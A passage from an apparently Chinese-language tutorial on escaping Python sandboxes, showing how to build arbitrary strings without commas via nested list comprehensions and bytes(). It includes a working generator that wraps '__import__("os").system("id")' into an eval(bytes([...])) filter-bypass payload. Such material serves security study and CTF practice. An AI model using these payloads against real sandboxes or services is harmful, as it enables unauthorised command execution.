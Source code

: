 ![Python 沙箱逃逸的通解探索之路](picture/7-1664366568.png)

由于 `range()` 是固定顺序的，无法得到我们要的任意字符串。那么接下来问题就变成了：

- **如何构造包含任意序列的整数的可迭代对象？**

如果能构造出 `[119, 104, 111, 97, 109, 105]` 这样的序列，那么就可以通过 `bytes()` 得到 `whoami`。由于不能使用 `,`，所以不能直接写一个列表或者集合之类的出来。

最先映入我脑海中的是**列表推导式**，因为可以通过 `if` 来从列表中捞需要的数据。那么问题是这个布尔表达式要怎么写呢？先思考一下：

对于一个有序的列表，若想捞出任意排序的字符串，不但需要固定下来每个字符的位置，还需要保证固定位置是特定的字符，所以肯定需要两个条件组合，那么 payload 就呼之欲出了：

```python
In [1]: bytes([
    ...:     j for i in range(256) for j in range(256)
    ...:     if i==0 and j == 119 or i == 1 and j == 104 or i == 2 and j == 111
    ...:     or i == 3 and j == 97 or i == 4 and j == 109 or i == 5 and j == 105
    ...: ])
Out[1]: b'whoami'

[j for i in range(256) for j in range(256)] 相当于以下代码

a = []
for i in range(256):
    for j in range(256):
        a.append(j)  
payload 代码六个 i 拿出 6个字符，j 的值决定了拿到的字符的值是什么。        
        
```



对应的构造脚本：

```python
exp = '__import__("os").system("id")'

print(f"eval(bytes([j for i in range({len(exp)}) for j in range(256) if "+" or ".join([f"i=={i} and j=={ord(j)}" for i, j in enumerate(exp)]) + "]))")
```

可以把以上脚本拉入 pycharm 细细分析，代码过长可以参看[此处](https://blog.csdn.net/weixin_36338224/article/details/114693282)设置一下自动换行。

![image-20230505212731309](picture/image-20230505212731309.png)

